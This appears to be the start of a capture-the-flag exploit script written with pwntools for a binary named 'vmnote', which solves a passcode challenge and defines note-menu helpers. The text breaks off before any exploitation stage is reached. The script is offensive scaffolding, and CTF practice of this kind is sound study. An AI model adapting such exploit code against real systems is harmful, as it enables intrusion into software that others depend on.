 

## EXP

```
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
local = 1
if local == 1:
    p = process('./vmnote')
    lb = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    rdi, rsi, rdx, rax = 0x26b72, 0x27529, 0x11c371, 0
    syscall = 0
    gadgets = []
else:
    p = remote('', 00)
    lb = ELF('libc.so.6')
    rdi, rsi, rdx, rax = 0x26b72, 0x27529, 0x11c371, 0
    gadgets = []
    syscall = 0

# cmd = ''
# cmd += 'b *$rebase(0x3826)\n'
# cmd += 'b *$rebase(0x207f)\n'
# cmd += 'b *$rebase(0x2184)\n'
# p = gdb.debug(["./vmnote"], cmd)

table = b''
table += p64(0x6eb86077ab94b3da)+p64(0xb54c2e5fa59a5dc0)
table += p64(0x3cc348a8e7b9ef62)+p64(0xc9d9e6db081f4316)
table += p64(0xf603fb7d3d025c38)+p64(0xe5593013d886beb0)
table += p64(0xb10451c2099193d0)+p64(0xcffa0720ec71d541)
table += p64(0x5e31c87f8592cc55)+p64(0x78ba4737f5a321df)
table += p64(0x409719252b3eaefe)+p64(0x588cf1e1a7844efc)
table += p64(0x0d2d7ad7d3a1908f)+p64(0xa6e0ddbd69350e64)
table += p64(0x791e23ce57ea9beb)+p64(0x4d12e367064baa28)
table += p64(0x76226fc12c7233af)+p64(0x11d6bcc6f289ee34)
table += p64(0xa08a4a8b3abb563f)+p64(0xf9b4000c5a63536a)

key = p64(0x58b1230458d793d0)+p64(0x5123d0ead0d5931e)+b'\x58'

p.recvuntil('challenge ')
r = int(p.recvuntil('\n')[:-1])
print("random", r)
check_num = 0x12345678+r
p.recvuntil("passcode:")

payload = b''
for i in range(0x11):
    payload += p8(table.index(key[i:i+1]))
payload += str(check_num).encode()
p.sendline(payload)

def new(idx, con='aaaa', size=4):
    p.sendlineafter('choice&gt;&gt; ', '1')
    p.sendlineafter("idx: ", str(idx))
    p.sendlineafter("size: ", str(size))
    p.sendlineafter("content: ", con)


def show(idx):
    p.sendlineafter('choice&gt;&gt; ', '2')
    p.sendlineafter("idx: ", str(idx))
```